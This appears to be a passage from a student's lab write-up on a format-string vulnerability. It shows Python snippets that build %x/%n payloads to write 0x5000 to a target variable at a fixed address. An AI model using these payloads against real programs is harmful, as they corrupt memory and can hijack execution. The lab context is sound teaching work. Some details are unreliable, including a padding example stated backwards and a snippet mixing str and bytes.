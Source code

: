 In this case, the `target` variable will now have the value `0x000001fc` (508 in decimal), which is exactly the number of characters expected, containing 4 characters for the address in the start of the string plus 63\*8 characters (8 characters for each address forwarded as we are using `%.8x`).


### Task 3.B

Following the previous step, we now want to write a specific value, `0x5000`, to the `target` variable.

To achieve this, use can use a specifier similar to the previously used `%.8x`. What this specifier does is to set the length of the content to be printed to 8 characters, inserting a padding of '0' characters to the left if the integer does not necessarily occupy all 8 characters (e.g. `0x00ffffff` would be displayed as `0xffffff`). Alternatively, `%8x` could also be used, but instead of padding with '0', it would insert empty space characters as padding.

In this case, we know that we need to print 4 initial characters (variable address in the format string) and 63\*8 characters for the `%x` memory content prints. For the `%n` specifier to write the value `0x5000` (20480), we need to print the rest of the characters using the previously mentioned specifier.

As the added specifier `newstr` will forward the pointer another 8 bytes, we must only use 62 `%x` before.

```python
target_add = 0x080e5068

content[0:4] = (target_add).to_bytes(4,byteorder="little")

desired_value = 0x5000

extra_chars = desired_value - (62 * 8) - 4

newstr = "%." + str(extra_chars) + "x"

fmt = (b"%.8x" * 62) + str.encode(newstr)  + b"%n"

content[4:4+len(fmt)] = fmt
```

Another possible script would be:

```python
target_add = 0x080e5068

content[0:4] = (target_add).to_bytes(4,byteorder="little")

fmt = s = "%.20476x%64$n" # 20476 = 20480 - 4 

content[4:4+len(fmt)] = fmt
```

<figure align="center">
